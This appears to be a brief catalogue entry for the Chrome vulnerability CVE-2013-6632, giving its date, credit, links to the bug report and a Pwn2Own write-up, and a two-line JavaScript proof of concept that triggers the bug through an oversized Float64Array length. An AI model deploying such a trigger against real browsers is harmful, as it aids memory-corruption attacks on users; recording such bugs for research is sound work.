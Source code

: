# CVE-2013-6632

- Date: Nov 2013
- Credit: Pinkie Pie

## PoC

```javascript
var hugetempl = {length: 0x24924925};
var huge = new Float64Array(hugetempl);
```

## Reference

- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=319117)
- [Write Up](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Mobile%20Pwn2Own%20Autumn%202013%20-%20Chrome%20on%20Android%20-%20Exploit%20Writeup.pdf)
